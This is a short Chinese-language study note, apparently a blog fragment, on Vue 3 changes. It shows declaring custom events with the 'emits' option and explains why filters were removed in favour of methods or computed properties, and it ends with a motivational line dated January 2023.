- 子组件中声明自定义事件(没指定就是原生事件)

```js
    <script>
      export default {
        emits: ['close']
      }
    </script>
```

- 移除了过滤器
> 过滤器虽然这看起来很方便，但它需要一个自定义语法，打破大括号内表达式是 “只是 JavaScript” 的假设，这不仅有学习成本，而且有实现成本！建议用方法调用或计算属性去替换过滤器


>愿所有的汗水都有收获,愿所有的努力不被辜负
2023年1月18日 21点07分

